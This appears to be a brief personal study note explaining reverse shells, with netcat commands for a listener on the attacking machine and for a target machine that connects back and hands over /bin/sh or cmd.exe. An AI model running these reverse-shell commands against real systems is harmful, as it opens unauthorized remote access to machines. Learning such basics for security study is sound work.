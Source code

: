 # Reverse Shell

In a reverse shell you have a victim machine connect back to us

Tools to run for reverse shell is netcat

Step 1: Attack Machine

```jsx
nc -lvp 4444
```

Step 2: Target Machine

```jsx
nc IP ADDRESS 4444 -e /bin/sh (Linux)

nc IP ADDRESS 4444 -e cmd.exe (windows)
```

Reverse Shells are the MOST common type of shell